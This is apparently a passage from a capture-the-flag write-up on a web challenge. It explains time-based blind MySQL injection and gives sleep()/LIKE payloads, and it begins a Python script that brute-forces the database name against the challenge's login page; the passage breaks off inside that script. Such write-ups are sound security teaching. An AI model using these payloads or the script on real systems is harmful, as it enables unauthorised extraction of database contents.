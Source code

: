 Using a payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-blind-with-like), We can started leaking the contents from the database

The payload below will leak the database name the web application is using

```sql
(select sleep(10) from dual where database() like '%')
```

The query above will sleep for 10 seconds of the database is like `%`

The `%` in MySQL acts as a wildcard meaning if we read the query again is simply say, sleep 10 second is the database string is anything

This query should always sleep for 10 seconds because the statement is True

Now to build on our query we will starting brute forcing characters on the left of the wild card. 

For Example:

```
a' AND (select sleep(10) from dual where database() like 'a%');-- -
```

This query will sleep for a period of 10 seconds if the database letter starts with `a` and any other characters in front **(remember % == wildcard)*

If it's true then we start brute forcing the second character

```
a' AND (select sleep(10) from dual where database() like 'ab%');-- -
```

This query will sleep for a period of 10 seconds if the database letter starts with `a` followed by `b` and any other characters in front

So we will loop through the entire alphabet and digits and special characters and when the request sleep by 10 seconds we’ll believe that the character we were brute forcing at the period of time is probably the correct character. 

To make the process a little less tedious I created a python script that automates the process of brute forcing characters

Here's what my solve [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/ecowas23/prequal/web/Ma%C3%AFmouna/enumerate.py) will do:
- Enumerate database name
- Get the mysql name
- Enumerate table

Here's my solve script

```python
import string
import requests
import time
import sys

# Trash script made by HackYou to enumerate Blind /Time based SQLI 

def bf_db():
    chars = string.printable[:-6]
    session = requests.session()
    url = "https://ctftogo-3-mice.chals.io/login"

    print('[+] Started brute forcing')
    phew = ""
    while True:
        for char in chars:
            name = f"{phew}{char}"
            sys.stdout.write(f"\r[+] Database name: {name}")
            payload = f"a' UNION SELECT NULL,NULL,NULL AND (select sleep(5) from dual where database() like '{name}%') #"
```